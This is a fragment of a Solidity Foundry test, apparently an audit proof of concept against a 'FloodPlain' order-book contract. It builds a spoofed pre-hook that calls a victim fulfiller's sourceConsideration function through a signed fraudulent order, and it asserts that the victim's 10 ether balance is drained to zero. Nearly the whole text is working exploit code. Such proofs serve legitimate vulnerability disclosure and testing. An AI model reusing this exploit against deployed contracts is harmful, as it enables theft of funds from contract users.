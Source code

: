 ```solidity
        // fund the victim fulfiller with native tokens that we will have it transfer out as the "consideration"
        uint256 targetAmount = 10 ether;
        deal(address(victimFulfiller), targetAmount);
        assertEq(address(victimFulfiller).balance, targetAmount);

        IFloodPlain.Item memory evilConsideration;
        evilConsideration.token = address(0);
        evilConsideration.amount = targetAmount;

        // now set up the spoofed sourceConsideration call (note the offer doesn't matter as this is not a legitimate order)
        IFloodPlain.Hook[] memory preHooks = new IFloodPlain.Hook[](1);
        IFloodPlain.Order memory maliciousOrder = IFloodPlain.Order({
            offerer: address(account0.addr),
            zone: address(0),
            recipient: account0.addr,
            offer: offer,
            consideration: evilConsideration,
            deadline: type(uint256).max,
            nonce: 0,
            preHooks: new IFloodPlain.Hook[](0),
            postHooks: new IFloodPlain.Hook[](0)
        });
        preHooks[0] = IFloodPlain.Hook({
            target: address(victimFulfiller),
            data: abi.encodeWithSelector(IFulfiller.sourceConsideration.selector, bytes28(keccak256("IFulfiller.sourceConsideration")), maliciousOrder, address(0), bytes(""))
        });

        // Construct the fraudulent order.
        IFloodPlain.Order memory order = IFloodPlain.Order({
            offerer: address(account0.addr),
            zone: address(0),
            recipient: account0.addr,
            offer: offer,
            consideration: consideration,
            deadline: type(uint256).max,
            nonce: 0,
            preHooks: preHooks,
            postHooks: new IFloodPlain.Hook[](0)
        });

        // Sign the order.
        bytes memory sig = getSignature(order, account0);

        IFloodPlain.SignedOrder memory signedOrder = IFloodPlain.SignedOrder({order: order, signature: sig});

        deal(address(token1), address(this), 500);
        token1.approve(address(book), 500);

        // Filling order succeeds and pre hook call invoked sourceConsideration on the vitim fulfiller.
        book.fulfillOrder(signedOrder);
        assertEq(address(victimFulfiller).balance, 0);
    }
}
```

